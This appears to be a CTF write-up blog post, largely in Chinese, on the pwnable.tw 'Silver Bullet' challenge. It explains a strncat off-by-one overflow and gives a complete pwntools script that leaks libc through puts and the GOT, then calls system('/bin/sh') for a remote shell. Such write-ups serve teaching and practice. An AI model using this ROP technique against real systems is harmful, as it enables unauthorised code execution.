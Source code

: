 ```yaml
---
title: Bullet
date: 2018-03-29 22:23:06
tags: ctf,pwn
---
```



注意`stack`或是`struct`的`layout`

漏洞`strncat(bullet->desc,buf,MAX - bullet->power)`; 
这样首先`create`长度为47的`bullet`，通过`power_up` 再增加一个`power` 此时bullet长度为48
通过`strnact` 最后还会赋值 `null` ,因此造成溢出,`power`會從`\x2f`蓋成`\x00`  
又因为 `power = strlen(power) + power` 所以最后`power`为1
杀死`gin`才会触发`return`;

再次`powerup`的时候,由于`len`和`char`间没有`\0`,`strncat`会连接到`len`的后面,从而改写`len`并`rop`.
注意`payload` 中不能有`null` 
由於程式本身有`NX`保护，必須使用ROP控制程式行為 但許多address因包含null byte，這些address無法被strncat複製到buffer上，因此覆寫main frame的return address時最多只能使用ROP執行某些gadgets。


再做一次 power_up() 就可以修改掉 power 的值並 overflow 到 main() 的 return address

最後把 power 改超大殺死 Werewolf 就可以触发 return ，而我们通过溢出修改 return 处的栈帧达到我们的目的
首先要泄露libc 的基址，从而得到system和 bin/sh 的地址，这里借用puts 函数
然后再触发system 函数 所以需要利用两次漏洞，第一次漏洞利用时返回地址应该是 main 。


内置的ROP怎么用
怎么查看 main的 return address是在overflow之後7個bytes 呢？？？看了半天 使用pattern search 可以算出offset 
终于可以写payload了
但是我输入了\xff\xff\xff 为什么就是打不败呢？？

这是别人的步骤：
step1：创建银弹，长度47
step2：补充银弹，长度1
step3：补充银弹，长度47
 |\xff * 3| + | junk(四字节)| + | put_addr | + | main_addr | + | got表中存储read的位置|
step4：调用beat，打败werewolf
step5：函数返回，调用puts，获得read()函数地址，并据此计算出libc基址，以及system、binsh地址等
step6：函数再次执行main，重复step1、step2
step7：补充银弹，长度47
`|\xff * 3| + | junk（四字节）| + | system_addr | + |junk（四字节）| + |bin_sh_addr|`
 
\xff 写成 xff 获取read地址的时候处理得也不对
最后一个beat 一直报错？ 干脆直接进入交互模式 在beat好了 
各种乱七八糟的终于成功getshell了 但是直接就EOF 执行不下去了 重新执行一遍 又好了 感觉本地不行到服务器上又可以了，然后服务器有时候还连不上或者程序一开始就运行错 这样子我都会怀疑是不是自己写错了555
不过最后终于成功了 开心开心

最终payload
``` python
from pwn import *
elf = ELF('./silver_bullet')
# sh = process('silver_bullet')
sh = remote('chall.pwnable.tw', 10103)
libc = ELF('./libc_32.so.6')

def create(content):
    sh.sendline('1')
    sh.sendlineafter(":",content)
    sh.recvuntil('Your choice :')
    

def powerup(content):
    sh.sendline('2')
    sh.sendlineafter(":",content)
    sh.recvuntil('Your choice :')

def  beat():
    sh.sendline('3')
    # sh.recvuntil('!')
    return  sh.recvuntil('Your choice :')

sh.recvuntil('Your choice :')
payload = '\xff'*3+'aaaa'+p32(elf.symbols['puts'])+p32(elf.symbols['main'])+p32(elf.got['read'])
create('a'*47)
powerup('a')
powerup(payload)
tmp = beat()
data = tmp.split('\n')[6]
read_addr = u32(data[0:4])  #这里的处理是参考别人的 
# read_addr = u32(sh.recv()[:4]) 
print  read_addr
read_libc= libc.symbols['read']
libc_base = read_addr-read_libc
sys_addr = libc.symbols['system']+libc_base
bin_addr = next(libc.search('/bin/sh\x00'))+libc_base
create('a'*47)
powerup('a')
payload = '\xff'*3+'aaaa'+p32(sys_addr)+p32(0xdeafbeef)+p32(bin_addr)
powerup(payload)
# beat()
sh.interactive()
# sh.recvuntil('Oh ! You win !!')
```

data = tmp.split('\n')[6] 是按照这样子输出的：
    
>----------- Werewolf -----------<
 + NAME : Gin
 + HP : 2147483647
>--------------------------------<
Try to beat it .....
Oh ! You win !!
xxx 地址
menu 

因此地址在第七行T
参考：
http://veritas501.space/2018/02/21/pwnable.tw%201~10%E9%A2%98%20writeup/
http://look3little.blogspot.sg/2017/03/silverbullet-200.html (十分详细)
http://blog.c0smic.cn/2017/12/10/pwnable_tw_4_6/ 详细
